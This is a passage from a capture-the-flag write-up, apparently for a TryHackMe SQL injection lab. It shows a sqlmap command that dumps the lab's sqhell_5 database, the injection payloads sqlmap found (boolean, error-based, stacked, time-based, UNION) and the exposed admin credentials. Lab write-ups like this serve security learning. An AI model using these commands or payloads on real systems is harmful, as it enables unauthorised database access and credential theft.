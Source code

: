 As before, we've found the database is called sqhell_5, now dump everything:

```text
┌──(root💀kali)-[~/thm/sqhell]
└─# sqlmap -u "http://sqhell.thm/post?id=2" -p "id" --dbms=mysql -D sqhell_5 --dump-all --threads 10
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.5.5#stable}
|_ -| . [(]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org
[*] starting @ 22:50:52 /2021-06-10/
[22:50:52] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=2 AND 7533=7533

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: id=2 AND GTID_SUBSET(CONCAT(0x716a6b7071,(SELECT (ELT(3773=3773,1))),0x716a767071),3773)

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: id=2;SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=2 AND (SELECT 1146 FROM (SELECT(SLEEP(5)))RxrU)

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: id=-3834 UNION ALL SELECT NULL,CONCAT(0x716a6b7071,0x52756b6441764b664548654d68494b726b4477706d7955444c66446a50665864577a784e77435848,0x716a767071),NULL,NULL-- -
---
[22:50:52] [INFO] testing MySQL
[22:50:52] [INFO] confirming MySQL
[22:50:52] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 8.0.0
[22:50:52] [INFO] fetching tables for database: 'sqhell_5'
[22:50:52] [INFO] fetching columns for table 'posts' in database 'sqhell_5'
[22:50:52] [INFO] fetching entries for table 'posts' in database 'sqhell_5'
Database: sqhell_5
Table: posts
[2 entries]
[22:50:52] [INFO] table 'sqhell_5.posts' dumped to CSV file '/root/.local/share/sqlmap/output/sqhell.thm/dump/sqhell_5/posts.csv'
[22:50:52] [INFO] fetching columns for table 'users' in database 'sqhell_5'
[22:50:52] [INFO] fetching entries for table 'users' in database 'sqhell_5'
Database: sqhell_5
Table: users
[1 entry]
+----+----------+----------+
| id | password | username |
+----+----------+----------+
| 1  | password | admin    |
+----+----------+----------+
```